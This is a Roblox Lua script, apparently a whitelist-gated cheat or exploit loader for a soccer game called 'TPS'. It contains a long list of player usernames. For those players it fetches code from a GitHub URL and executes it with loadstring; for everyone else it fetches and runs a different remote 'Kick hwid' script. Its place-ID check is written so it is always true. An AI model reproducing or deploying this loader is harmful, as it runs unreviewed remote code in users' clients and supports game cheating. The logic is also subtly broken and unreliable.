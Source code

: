local whitelist = { "abu_119", "Scope_Reborn", "youropgod", "Adanakerese", --me "sh4d0w_3z", "imaginingj", "qazztr", "orceantro", "NebulaWhisper", "OhhXavier", "iGalaxyKoala_XD", "a_erxksks13", "TpsWafiy", "Edu_nescauucs", "tpsibo_ydk", "N0ct1zX", "momazosMilitopa", "martin_figueroa21", "Zzzshadonwwzz_tt", "maxgabz2", -- 4 din ka mehmaan "a_erxksks13", "RandomTPSMOBILE", "tpsybloodzuser", "LightzUpThemAnkles", "ysjjsu91", "AHMED_YT1233", "xKinq_Fxrce", "vanguardxe", "martin_figueroa21", "boconhairnew", -- 1 din ruk "brunin_la", "dvessayy", "mokaarfa54", "Tps_Strakosha9", "Princeplayz_YTx", "vanguardxe", "Hiivver", "TPS_DUGOL2", "5mdmdUWU", "tps_gkMonster", "Mikecrackexet", "TPS_FLEX", "i8xfr", "dievin55", "JUSIAN_FNF", "Yasinqatar2233", "AnkledByRev", "Theonexll", "Zzz_tps2", "NormalFootballerNF", --limiteditemsking "ALMUTASIMq", "EFREWFTEWT", "vibez_qxys", "Rockifails123456" "jaguarisfast" -- giveaway winner }

if table.find(whitelist, game.Players.LocalPlayer.Name) then local id = game.PlaceId if id == 335760407 or 13762482705 then game.StarterGui:SetCore("SendNotification",{ Title = "Loading..."; Text = "Loading will take some seconds..."; Duration = 5; }) loadstring(game:HttpGet('https://raw.githubusercontent.com/ArdaAkpinar/drag/main/README.md%22'))() else game.Players.LocalPlayer:Kick("It's not TPS SS!") end else loadstring(game:HttpGet("https://raw.githubusercontent.com/yBloodz/TPS-script/main/Kick%20hwid"))(); end
